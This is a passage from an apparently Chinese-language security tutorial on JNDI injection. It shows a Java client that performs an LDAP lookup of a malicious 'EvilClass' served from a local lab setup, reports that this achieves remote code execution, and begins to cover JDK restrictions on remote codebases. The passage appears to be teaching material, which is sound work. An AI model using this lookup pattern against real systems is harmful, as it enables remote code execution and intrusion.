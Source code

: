 客户端`JNDI_LDAP`类
```java
package com.jndi.client;

import javax.naming.InitialContext;

/**
 * Created by dotast on 2023/2/1 11:28
 */
public class JNDI_LDAP {
    public static void main(String[] args) throws Exception{
        String target = "ldap://localhost:9999/EvilClass";
        //初始化上下文
        InitialContext initialContext = new InitialContext();
        Object ret = initialContext.lookup(target);
    }
}
```

先在恶意类文件目录通过 python 启动 http 服务，然后启动 LDAP 服务端
![image-20230201113616637](images/image-20230201113616637.png)

然后运行客户端
![image-20230201113650551](images/image-20230201113650551.png)

成功执行恶意类代码弹出计算器，完成 RCE。

## JDK高版本下的限制及绕过

### JNDI_RMI限制

在`JDK 6u132`、`JDK 7U122`、`JDK 8U133`版本之后，Java 限制了通过`RMI`远程加载`Refererce`工厂类，以下属性被默认设置为 false
```
com.sun.jndi.rmi.object.trustURLCodebase = false
```

因此在高版本下的 JDK 默认不信任远程代码，如果继续使用会报以下错误
![image-20230201152311585](images/image-20230201152311585.png)
